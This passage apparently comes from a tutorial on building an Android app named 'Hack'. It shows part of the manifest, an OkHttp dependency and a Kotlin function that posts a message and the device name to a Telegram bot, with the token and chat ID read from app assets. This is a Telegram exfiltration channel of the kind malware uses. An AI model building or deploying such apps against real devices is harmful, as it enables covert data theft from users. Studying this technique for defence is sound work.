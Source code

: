 ```xml
        android:supportsRtl="true"
        android:theme="@style/Theme.Hack"
        tools:targetApi="31">
        <activity
            android:name=".HackMainActivity"
            android:exported="true"
            android:theme="@style/Theme.Hack">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

As you can see, the only permission is `INTERNET` for connecting via HTTP in our case.    

Then ensure you have the `OkHttp` dependency added in your `build.gradle` file:    

```js
dependencies {
    implementation 'com.squareup.okhttp3:okhttp:4.11.0' // or latest stable version
}
```

First of all look at this function:    

```kotlin
// function to send message using OkHttp
fun sendTextMessage(message: String) {
    val token = getTokenFromAssets()
    val chatId = getChatIdFromAssets()
    val deviceInfo = getDeviceName()
    val meow = "Meow! ♥️\uFE0F"
    val messageToSend = "$message\n\n$deviceInfo\n\n$meow\n\n"

    val requestBody = FormBody.Builder()
        .add("chat_id", chatId)
        .add("text", messageToSend)
        .build()

    val request = Request.Builder()
        .url("https://api.telegram.org/bot$token/sendMessage")
        .post(requestBody)
        .build()

    // send the request asynchronously using OkHttp
    client.newCall(request).enqueue(object : Callback {
        override fun onFailure(call: Call, e: IOException) {
            e.printStackTrace()
        }

        override fun onResponse(call: Call, response: Response) {
            if (response.isSuccessful) {
                // Handle success
                println("Message sent successfully: ${response.body?.string()}")
            } else {
                println("Error: ${response.body?.string()}")
            }
        }
    })
}
```